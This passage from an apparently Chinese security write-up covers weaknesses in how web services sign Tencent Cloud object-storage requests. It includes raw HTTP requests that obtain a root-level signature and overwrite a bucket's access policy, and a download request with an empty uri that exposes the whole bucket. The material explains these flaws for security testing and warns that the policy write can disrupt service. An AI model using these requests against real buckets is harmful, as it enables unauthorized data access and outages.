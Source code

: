   *   *   *   *   *   *   * 

    
    
    GET /get_put_sgin?uri=/ HTTP/1.1Host: 127.0.0.1:5000Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: close  
    

    获取根目录来进行PUT ACL的写入操作

![](https://gitee.com/fuli009/images/raw/master/public/20210930164316.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    PUT /?policy&sgin HTTP/1.1Host: ceshicos-1253712656.cos.ap-nanjing.myqcloud.comAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type:application/jsonContent-Length: 381  
    {"Statement": [  {    "Principal": {      "qcs": [        "qcs::cam::uin/UIN:uin/UIN"      ]    },    "Effect": "allow",    "Action": [      "name/cos:GetBucket",      "name/cos:GetObject",      "name/cos:PutObject"    ],    "Resource": [      "qcs::cos:ap-nanjing:uid/1253712656:ceshicos-1253712656/*"    ]  }],"version": "2.0"}

![](https://gitee.com/fuli009/images/raw/master/public/20210930164317.png)  
    来对根目录进行ACL的写入，但是要注意的是 **PUT bucket写入是一个覆盖操作** **，会覆盖原有业务的ACL导致业务无此bucket权限，导致业务中断** 。所以如果发现此问题不要贸然测试。  
  
 **下载时的安全问题**

  *  **读取对象存储元信息**  

    对象存储为什么可以保证存储文件的安全？在私有读的存储桶里，读取任意文件都需要授权签名，签名过期后就无法读取，这样就会导致一张图片必须每次读的时候都去请求权限，在请求权限时，业务最常用的接口就是：  

  *   *   *   *   *   *   *   * 

    
    
    GET /download?uri=this_is_mine HTTP/1.1Host: 127.0.0.1:5000Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: close  
      
    

  

![](https://gitee.com/fuli009/images/raw/master/public/20210930164318.png)

    服务端会返回签名后的链接给我们访问文件，但是如果我们的uri设置为空会怎么样呢？  

![](https://gitee.com/fuli009/images/raw/master/public/20210930164319.png)  
    很明显，对我们的根目录做了签名，访问的话，我们就可以获取对象存储的管理节点信息：  

![](https://gitee.com/fuli009/images/raw/master/public/20210930164320.png)

使用对应key即可获取任意文件（我这里是个空的存储桶）。

  
 **其他**  
    除了以上所说的，其他的特性也可能会存在很多安全问题，例如

  * 镜像回源 SSRF
